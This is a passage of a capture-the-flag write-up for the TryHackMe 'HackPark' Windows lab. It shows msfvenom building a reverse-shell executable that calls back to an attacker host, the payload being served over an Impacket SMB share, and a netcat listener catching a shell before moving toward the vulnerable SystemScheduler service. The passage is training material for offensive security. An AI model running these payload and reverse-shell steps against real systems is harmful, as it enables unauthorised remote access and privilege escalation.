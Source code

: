 ```
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.0.1
                                 IP address(es)
                                 [01]: 10.10.197.201
                                 [02]: fe80::4d29:32f9:24d9:c8f
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

`Windows 2012 R2 6.3 Build 9600`

Further enumerate the machine. What is the name of the abnormal service running?

`WindowsScheduler`

What is the name of the binary you're supposed to exploit?

```
bibo318@parrot:~/CTFs/tryhackme/HackPark$ msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.8.106.222 LPORT=9002 -f exe -o Message.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] Skipping invalid encoder /x86/shikata_ga_nai
[!] Couldn't find encoder to use
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: Message.exe

bibo318@parrot:~/CTFs/tryhackme/HackPark$ sudo smbserver.py smbfolder .
[sudo] password for kali:
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.197.201,49267)
[*] AUTHENTICATE_MESSAGE (\,HACKPARK)
[*] User HACKPARK\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SMBFOLDER)
[*] Closing down connection (10.10.197.201,49267)
[*] Remaining connections []
```

```
bibo318@parrot:~/CTFs/tryhackme/HackPark$ nc -lnvp 9001
Listening on 0.0.0.0 9001

id
Connection received on 10.10.197.201 49260
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
iis apppool\blog

cd "C:\Program Files (x86)\SystemScheduler"
c:\windows\system32\inetsrv>cd "C:\Program Files (x86)\SystemScheduler"
dir
C:\Program Files (x86)\SystemScheduler>dir
 Volume in drive C has no label.
```